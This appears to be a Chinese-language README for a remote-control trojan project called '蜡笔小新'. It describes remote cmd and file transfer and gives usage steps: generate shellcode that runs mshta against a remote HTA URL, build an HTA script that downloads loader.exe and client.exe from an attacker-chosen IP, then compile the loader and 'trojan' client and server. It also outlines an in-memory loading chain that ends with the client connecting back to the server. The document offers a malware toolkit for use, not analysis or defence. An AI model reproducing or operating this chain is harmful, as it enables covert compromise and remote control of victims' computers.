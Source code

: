 <h1>蜡笔小新</h1>

<h3>版本</h3>
<p>1.1</p>

<h3>简介</h3>
<p>轻型远程控制软件</p>

<h3>功能</h3>
<p>1、远程 cmd</p>
<p>2、文件上传下载</p>

<h3>使用方法</h3>
<p>1、使用 shellcode\GetShellcode.py 生成 shellcode
   例子: GetShellcode.py -c "mshta http://192.168.0.1//u9V75048V41swXC4.msha" -o output.txt</p>

<p>2、使用 hta\DownloadURLFile.py 生成 hta 脚本。
   例子: DownloadURLFile.py -a 192.168.1.3 -b loader.exe -c client.exe </p>

<p>3、在 loader 项目中生成加载器
   例子: 这个需要用 vs 打开项目, 方便加载器加载客户端程序</p>

<p>4、在 trojan 项目中生成客户端和服务端程序
   例子: 这个也需要用 VS 打开项目, 之后在 Main 函数中修改需要连接的 IP 地址或者 URL, URL 连接的功能暂时没有做出来(-_-)</p>

<h3>加载流程</h3>
<p>通过内存 shellcode 远程加载 hta 脚本并运行, hta 脚本会将客户端和加载器下载到当前目录, 然后运行加载器并等待加载器完成工作, 最后运行客户端以连接服务端</p>

<h3>更新</h3>
<p>1.0: 初代版本</p>
<p>1.1: 修复了一些 Bug, 加载器实现了资源释放加载的功能</p>
